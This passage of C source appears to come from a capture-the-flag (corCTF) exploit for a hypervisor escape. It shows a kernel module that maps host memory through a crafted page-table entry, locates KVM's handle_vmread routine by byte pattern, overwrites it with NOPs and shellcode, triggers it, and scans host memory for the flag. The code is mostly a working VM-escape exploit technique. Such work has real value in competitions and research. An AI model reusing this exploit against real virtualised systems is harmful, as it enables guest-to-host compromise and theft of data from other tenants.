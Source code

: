 ```c

    pgde_page[0] = l2_entry;

    // in THEORY I can access memory at 0xffff880000000000 now
    pr_info("TEST: %llx\n", *((uint64_t *)0xffff880000000000));

    // look for 0x3ec6780f to find the page where handle_vmread is at
    for (i = 0; i < (1024ull << 20); i += 0x1000) {
        unsigned int val = *((unsigned int *)(0xffff880000000df8 + i));

        // check the value and check if relocations were applied
        if (val == 0x3ec6780f && *((unsigned int *)(0xffff880000000df8 + 0xb + i)) != 0) {
            handle_vmread_page = 0xffff880000000000 + i;
            break;
        }
    }

    pr_info("found handle_vmread page at: %llx\n", handle_vmread_page);

    handle_vmread = handle_vmread_page + 0x4d0;
    pr_info("handle_vmread at: %llx\n", handle_vmread);

    // I don't want to figure out the address of nested_vmx_succeeded so pad with nops just up to that call
    // and make the instruction just after nested_vmx_succeeded returns be ret
    memset(handle_vmread, 0x90, 0x281);
    handle_vmread[0x286] = 0xc3;

    // -1 to remove null terminator
    memcpy(handle_vmread, shellcode, sizeof(shellcode)-1);

    // do it
    read_guy(0);

    // scan for flag in memory
    for (i = 0; i < 1024ull << 20; i+= 0x1000) {
        if (!memcmp(0xffff880000000000 + i, "corctf{", 7)) {
            pr_info("flag: %s\n", 0xffff880000000000 + i);
            break;
        }
    }

    return 0;
}

static ssize_t proc_read(struct file* filep, char* __user buffer, size_t len, loff_t* offset) {
    return 0;
}

static ssize_t proc_write(struct file* filep, const char* __user u_buffer, size_t len, loff_t* offset) {
    return 0;
}

void __no_profile native_write_cr4(unsigned long val)
{
        unsigned long bits_changed = 0;
        asm volatile("mov %0,%%cr4": "+r" (val) : : "memory");
}

static inline int vmxon(uint64_t phys)
{
        uint8_t ret;
```
